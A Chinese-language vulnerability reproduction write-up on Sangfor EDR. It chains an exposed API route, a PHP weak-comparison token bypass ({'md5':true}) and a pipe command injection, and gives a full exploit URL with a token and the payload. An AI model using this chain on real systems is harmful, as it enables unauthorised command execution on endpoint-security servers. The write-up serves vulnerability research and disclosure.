 深信服 终端检测相应平台（EDR） 任意命令执行漏洞（二）
=====================================================

一、漏洞简介
------------

二、漏洞影响
------------

深信服EDR 3.2.16

深信服EDR 3.2.17

深信服EDR 3.2.19

三、复现过程
------------

![1.jpg](resource/深信服终端检测相应平台(EDR)任意命令执行漏洞(二)/media/rId24.jpg)

dev\_linkage\_launch.php
为设备联动的新入口点主要是将联动的接口构造成业务统一处理的接口

主要调用

![2.jpg](resource/深信服终端检测相应平台(EDR)任意命令执行漏洞(二)/media/rId25.jpg)

跟进

![3.jpg](resource/深信服终端检测相应平台(EDR)任意命令执行漏洞(二)/media/rId26.jpg)

可以看到 第一个检查为 \$req\_url = \$\_SERVER\['PHP\_SELF'\];

绕过第一个检查:

在他们系统nginx配置文件里面:

![4.jpg](resource/深信服终端检测相应平台(EDR)任意命令执行漏洞(二)/media/rId27.jpg)

**通过nginx规则可以得知**\*\*,**他们没有设置禁止外网访问**.\*\***从而可以直接访问**

/api/edr/sangforinter/v2/xxx 绕过 第一个检查

**第二检查**\*\*:\*\* **权限检查**

![5.jpg](resource/深信服终端检测相应平台(EDR)任意命令执行漏洞(二)/media/rId28.jpg)

跟进check\_access\_token

![6.jpg](resource/深信服终端检测相应平台(EDR)任意命令执行漏洞(二)/media/rId29.jpg)

**这里\*\*\*\*if(\$md5\_str == \$json\_token\["md5"\])**
**引发第二个漏洞**\*\*: php\*\*\*\*弱类型导致的漏洞\*\*

**绕过只需要传入一个base64编码的json内容为**
\*\*{"md5":true}\*\***即可**

**至此** **权限检查绕过完毕**

**来到** process\_cssp.php 文件

![7.jpg](resource/深信服终端检测相应平台(EDR)任意命令执行漏洞(二)/media/rId30.jpg)

存在任意指令执行漏洞.作者试图使用escapeshellarg函数去给单引号打反斜杠实际上是毫无作用的.`https://www.0-sec.org:8443//api/edr/sangforinter/v2/cssp/slog_client?token=eyJyYW5kb20iOiIxIiwgIm1kNSI6ImM0Y2E0MjM4YTBiOTIzODIwZGNjNTA5YTZmNzU4NDliIn0=`

绕过:`{“params”:”|命令”}`

结果如下:

![WechatIMG18.jpeg](resource/深信服终端检测相应平台(EDR)任意命令执行漏洞(二)/media/rId31.jpg)
